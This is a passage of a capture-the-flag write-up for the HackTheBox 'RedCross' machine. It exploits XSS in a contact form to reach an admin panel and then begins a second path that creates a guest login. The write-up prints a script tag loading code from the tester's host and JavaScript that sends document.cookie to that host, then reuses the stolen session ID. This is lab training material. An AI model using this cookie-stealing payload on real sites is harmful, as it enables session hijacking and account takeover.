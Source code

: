 Here we have two paths to get access to the box, I'll explain both, and try to automate both of them

## Path 1 - XSS

In the contact form, at **https://intra.redcross.htb/?page=contact**, if you try to enter script tags into the subject or the body, it spawns an error

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2005:09:40.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2005:09:25.png)

The same thing does not happen if we try to poison the `contact` tag

```js
<script src="http://10.10.14.20:9090/cookie.js"></script>
```

And the payload

```js
function addTheImage() {
        var img = document.createElement('img');
        img.src = 'http://10.10.14.20:9090/' + document.cookie;
document.body.appendChild(img);
}

addTheImage();
```

Now we trigger it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2005:15:01.png)

And then, we get cookies!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2005:15:29.png)

`PHPSESSID=2kd6l8mmkv3n4rfsh2slcma8u6`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2005:17:12.png)

Now we just set it on the browser and get access to the `admin` panel

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2005:18:35.png)

## Path 2 - Create a Login

First we need to create e valid login on the application

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2005:25:35.png)

We get `guest:guest`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2005:25:52.png)

